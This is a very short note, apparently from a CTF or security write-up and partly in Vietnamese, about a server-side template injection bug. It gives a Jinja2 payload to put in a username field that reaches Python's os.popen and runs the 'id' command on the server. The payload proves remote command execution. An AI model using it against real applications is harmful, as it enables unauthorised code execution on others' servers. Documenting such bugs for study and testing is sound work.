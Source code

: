 # Bug SSTI
payload vào username: {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}